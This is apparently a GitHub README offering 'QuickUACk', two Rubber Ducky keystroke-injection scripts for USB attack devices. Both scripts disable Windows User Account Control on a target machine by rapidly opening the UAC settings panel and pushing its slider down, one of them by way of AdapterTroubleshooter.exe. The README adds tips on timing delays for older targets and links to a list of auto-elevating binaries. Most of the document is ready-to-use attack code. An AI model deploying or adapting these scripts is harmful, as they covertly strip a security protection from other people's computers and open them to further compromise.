 # QuickUACk!
Some of my antiUAC Scripts for Rubbber Ducky.

</BR>

![alt text](https://media1.giphy.com/media/aQrYT4WVN55aU/giphy.gif)

</BR>


A pair of fast solutions to disable UAC (User Account Control) 
</BR>
it works on all windows version 32 and 64 bits with uac (Vista or Earlier) 
</BR>
and are valid for all languages (Latin, of course).
</BR>

The scripts were created with the Italian keyboard, 
</BR>
so I do not exclude that in some cases they require minor adjustments.
</BR>
if the target machine is old, I recommend extending the delay time.

</BR>

Ver 1.0 uses a .exe application from the C: \ Windows \ System32 (system protected) folder, 
</BR>
to start the uac on-screen control and switch to the uac panel.
</BR>
the C: \ Windows \ SysWOW64 folder for the purpose or other protected system folders that contain exe are also fine.
</BR>
Several applications contained in System32 are good, but be careful because there are some exceptions.
</BR>
You can consult this list to see the applications that are whitelisted by default on W7 
</BR>
and therefore  do not require uac checking to be performed:
</BR>

https://books.google.it/books?id=1EXt2U84WZ0C&pg=PA278&lpg=PA278&dq=AdapterTroubleshooter.exe&source=bl&ots=sWxJuFdZdU&sig=OhOUJ9gzJxfLb4jlJPiuZyP2F-U&hl=it&sa=X&ved=0ahUKEwi37qe0_fvaAhWMyqYKHWz8CWQQ6AEIcDAN#v=onepage&q=AdapterTroubleshooter.exe&f=false

</BR>

![alt text](https://i.imgur.com/3k9YWzZ.gif)

</BR>

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@


QuickUACk Ver. 1.0

DELAY 2000
</BR>
CTRL ESC
</BR>
DELAY 200
</BR>
REM start C:\Windows\System32\AdapterTroubleshooter.exe
</BR>
REM work on all windows version 32 and 64 bit
</BR>
REM no reboot is required for disabling 
</BR>
STRING AdapterTroubleshooter
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
TAB
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DELAY 200
</BR>
TAB
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
LEFTARROW
</BR>
DELAY 200
</BR>
ENTER
</BR>

-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-+-



QuickUACk Ver. 2.0

DELAY 2000
</BR>
CTRL ESC
</BR>
DELAY 200
</BR>
REM opens directly the User Account Control Panel 
</BR>
REM work on all windows version 32 and 64 bit with uac (Vista or Earlier)
</BR>
REM no reboot is required for disabling
</BR>
STRING UAC
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
LEFTARROW
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DOWNARROW
</BR>
DELAY 200
</BR>
TAB
</BR>
DELAY 200
</BR>
ENTER
</BR>
DELAY 200
</BR>
LEFTARROW
</BR>
DELAY 200
</BR>
ENTER

</BR>

@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@@


</BR>



